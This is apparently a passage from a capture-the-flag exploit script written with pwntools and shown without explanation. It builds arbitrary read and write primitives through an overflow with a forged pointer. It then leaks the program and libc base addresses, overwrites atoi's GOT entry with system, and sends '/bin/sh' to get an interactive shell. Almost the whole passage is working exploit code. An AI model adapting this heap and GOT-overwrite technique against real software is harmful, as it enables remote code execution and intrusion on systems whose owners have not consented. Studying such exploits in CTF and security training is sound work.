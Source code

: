 ```python
    r.sendlineafter(b"index: ", str(idx).encode())

def reset():
    r.sendlineafter(b"Choice: ", b"5")

def arb_write(addr: int, data: bytes):
    create(0)
    create(1)
    explore(0)

    edit(b"A" * 0x38 + p64(addr - 0x40))
    reset()

    explore(1)
    explore(1)
    edit(data)
    reset()

def arb_read(addr: int) -> bytes:
    create(0)
    create(1)
    explore(0)

    edit(b"A" * 0x38 + p64(addr - 0x40))
    reset()

    explore(1)
    explore(1)
    res = read()
    reset()
    return res

r.recvuntil(b"gift: ")
exe.address = int(r.recvline().strip(), 16) - exe.sym.main
log.info(f"{hex(exe.address)=}")

libc.address = u64(arb_read(exe.got.printf)[:8]) - libc.sym.printf
log.info(f"{hex(libc.address)=}")

# GOT overwrite
arb_write(exe.got.atoi, p64(libc.sym.system))

r.sendlineafter(b"Choice: ", b"/bin/sh")

r.interactive()
```